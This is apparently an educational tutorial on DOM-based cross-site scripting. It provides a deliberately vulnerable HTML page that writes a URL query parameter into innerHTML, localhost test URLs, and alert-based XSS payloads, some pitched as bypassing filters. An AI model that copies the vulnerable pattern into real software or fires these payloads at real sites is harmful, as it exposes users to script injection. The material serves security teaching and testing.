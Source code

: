 **XSS (Cross-Site Scripting)** — the most common attack vector in web security testing.

---

### **Step 1: DOM-Based XSS (as shown earlier)**

Here’s the vulnerable code again with clear testing steps:

#### **Vulnerable HTML (DOM-Based XSS)**:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>DOM XSS Test</title>
</head>
<body>
    <h2>Message:</h2>
    <p id="output"></p>

    <script>
        // DOM XSS vulnerability
        const params = new URLSearchParams(window.location.search);
        const message = params.get("msg");
        if (message) {
            document.getElementById("output").innerHTML = message;
        }
    </script>
</body>
</html>
```

---

#### **How to Test:**
Open this in your browser and run:
```
    http://127.0.0.1:5500/XSS/DOM-Based%20XSS/index.html

    http://127.0.0.1:5500/XSS/DOM-Based%20XSS/index.html?msg=<script>alert('Hacked!')</script>
    🧨 Warning: Some browsers or extensions may sanitize or block inline <script> injections by default. If it doesn't pop an alert, try using a more sneaky payload (still for educational purposes only).
```

**Expected behavior**: JavaScript alert should pop up — this confirms the DOM is injecting raw unsanitized HTML/JS from the query parameter.

---

### 🕵️‍♂️ Alternative Payloads (for testing):

Try these in the `msg` parameter:
- Basic script:  
  ```
  <script>alert('XSS')</script>
  ```

- Image-based (often bypasses basic filters):
  ```
  <img src=x onerror=alert('XSS')>
  ```

- Inline event:
  ```
  <svg onload=alert('XSS')>
  ```